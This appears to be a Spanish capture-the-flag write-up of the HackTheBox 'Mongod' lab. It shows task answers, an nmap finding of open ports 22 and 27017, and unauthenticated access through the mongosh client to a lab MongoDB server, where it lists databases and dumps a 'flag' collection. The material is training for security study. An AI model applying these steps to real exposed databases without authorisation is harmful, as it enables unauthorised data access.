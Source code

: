 Vamos a ver [[mongodb]] en esta maquina

----

1)¿Cuántos puertos TCP están abiertos en la máquina?
	2

2)¿Qué servicio se ejecuta en el puerto 27017 del host remoto?
	MongoDB 3.6.8

3)¿Qué tipo de base de datos es MongoDB? (Elija: SQL o NoSQL)
	NoSQL

4)¿Cuál es el nombre del comando para el shell de Mongo que se instala con el paquete mongodb-clients?
	mongosh

5)¿Cuál es el comando utilizado para listar todas las bases de datos presentes en el servidor MongoDB? (No es necesario incluir un ; al final)
	show dbs

6)¿Cuál es el comando utilizado para listar las colecciones de una base de datos? (No es necesario incluir un ; al final)
	show collections
	En MongoDB, una **colección** es como una **tabla en SQL**, pero más flexible.  
	Contiene **documentos** (que serían como filas), pero **no requieren un esquema fijo**.
	Por ejemplo, en una base de datos de usuarios, podrías tener una colección llamada `usuarios` que guarda todos los perfiles en forma de documentos JSON.

7)¿Cuál es el comando utilizado para volcar el contenido de todos los documentos de la colección denominada flag en un formato fácil de leer?
	db.flag.find().pretty()


---------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

![[Mongod1.png]]

![[Mongod2.png]]

Por el ttl la maquina es linux, y que esta abierto el puerto 22 ssh y el 27017 que es de mongodb

# Intrusion por [[mongodb]]

Descargamos el binario para ejecutar mongodb
```shell
curl -O https://downloads.mongodb.com/compass/mongosh-2.3.2-linux-x64.tgz
tar xvf mongosh-2.3.2-linux-x64.tgz
cd mongosh-2.3.2-linux-x64/bin
./mongosh mongodb://10.129.228.30:27017
```
Usando el binario de mongodb. Ganamos acceso a la maquina
![[Mongod3.png]]

Una vez dentro, vamos a usar estos comandos para manejarnos por la base de datos, y a posteriori visualizamos la flag
```mongodb
show dbs
use sensitive_information
show colletions
db.flag.find().pretty()
```
![[Mongod4.png]]

# Notas
Una base de datos es sql, cuando tiene el modelo tradicional de bases de datos que son tablas,columnas,filas,etc. Y cuando no tiene esto es una base de datos NOSQL


# Creditos
Writeup Oficial HackTheBox